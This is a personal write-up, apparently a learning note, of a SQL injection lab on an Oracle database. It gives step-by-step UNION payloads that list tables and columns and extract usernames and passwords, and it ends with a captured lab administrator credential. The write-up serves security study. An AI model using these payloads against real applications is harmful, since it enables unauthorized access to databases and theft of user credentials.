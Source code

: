 # Oracle database listing
#UNION 
#WRITEUP 
#DATABASEENUM 

The lab mentions to use an `UNION` attack so follow the [[Methodology UNION attacks]]

## 1. Columns of result set

As this is an Oracle database scenario the `UNION` payload is different, refer to [[Oracle querying database type and version]].

![[Attacks/Enumerating the database/labs/SQL injection attack, listing the database contents on Oracle/image/columns.png]]

The result set has two columns.

## 2. Columns that can hold string data

Both columns can hold string data

![[Attacks/Enumerating the database/labs/SQL injection attack, listing the database contents on Oracle/image/string data.png]]

## 3. Extract data

### Tables names

Extract the tables names from `all_tables` with the following payloads

```SQL
' UNION SELECT TABLE_NAME,NULL FROM all_tables--
```

![[tables names.png]]

As it's a similar scenario from the [[Non-Oracle databases listing contents]] I looked directly for the `users_XXXXX` table.

![[interesting table.png]]

`USERS_PGXVFU`

### Table columns

Then list the columns of the table with the following payload:

```SQL
' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_PGXVFU'--
```

![[interesting columns.png]]

Finally extract the data from:

```
PASSWORD_DVGJZA

USERNAME_FVMHGL
```

With the following payload:

```SQL
' UNION SELECT USERNAME_FVMHGL,PASSWORD_DVGJZA FROM USERS_PGXVFU--
```

![[Attacks/Enumerating the database/labs/SQL injection attack, listing the database contents on Oracle/image/admin creds.png]]

```
administrator:1fivsuazttskz208mteg
```

Finally, log in as the administrator user and the lab is solved!